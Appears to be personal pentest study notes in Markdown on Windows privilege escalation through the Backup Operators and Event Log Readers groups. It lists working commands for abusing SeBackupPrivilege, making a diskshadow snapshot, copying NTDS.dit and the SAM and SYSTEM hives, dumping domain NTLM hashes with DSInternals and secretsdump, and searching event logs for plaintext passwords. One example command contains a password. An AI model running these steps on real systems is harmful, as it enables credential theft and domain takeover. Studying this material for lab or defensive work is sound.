 Backup Operators 
	[SeBackup Privilege]([https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges](https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges))
		Allows to traverse any folder and list contents and copy a file from a folder even with no ACE. 
		Need to copy the data specifying the [FILE_FLAG_BACKUP_SEMANTICS](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea)
			Exploiting privilege 
			https://github.com/giuliano108/SeBackupPrivilege
			Import the Libraries:
				`Import-Module .\SeBackupPrivilegeUtils.dll`
				`Import-Module .\SeBackupPrivilegeCmdLets.dll`
			Turn on the privileges 
				`whoami /priv`
				`Get-SeBackupPrivilige`
				`Set-SeBackupPrivilege`
			Copy a protected file 
				`Copy-FileSeBackupPrivilege '<path to file>' .\<filename>.txt`
			Read the file
			Use [diskshadow](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) to attack a domain controller with NTDS.dit
				Contains all the NTLM hashes for all users in the domain.
				Use diskshadow utility to create a copy of the C drive and expose it in the E drive
				`diskshadow.exe`
				`set verbose on`
				`set metadata`
				`set context clientaccesible`
				`set contect persistent`
				`begin backup`
				`add volume C: alias cdrive`
				`create`
				`expose %cdrive%` E:
				`end backup`
				`exit`
				`dir E:`	`
			Bypass the ACL and copy the NTDS locally
				`Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit`
			Extract credentials from NTDS.dit
				`Import-Module .\DSInternals.psd1`
				`$key = Get-BootKey -SystemHivePath .\SYSTEM'
				`Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key`
				Using SecretsDump.py
					`secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL'
				CopyFiles with Robocopy
					`robocopy /B E:\Windows\NTDS .\ntds ntds.dit`
		Backup the SAM and SYSTEM registry hives.
			`reg save HKLM\SYSTEM SYSTEM.SAV`
			`reg save HKLM\SAM SAM.SAV`
[Event Log Readers](<https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn579255(v=ws.11)?redirectedfrom=MSDN#event-log-readers>)
	Confirm group membership 
		`net localgroup "Event Log Readers"`
	Query windows events using [wevutil (CMD)](<Windows/PrivEsc/Windows Group Privileges.md>) Or [Get-WinEvent(PS)](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.diagnostics/get-winevent?view=powershell-7.3&viewFallbackFrom=powershell-7.1)
		Search for security Logs. 
			CMD
				`wevtutil qe Security /rd:true /f:text | Select-String "/user"
			Powershell
				`Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}`
		Pass Credentials to wevutil 
			`wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
			
`
	
	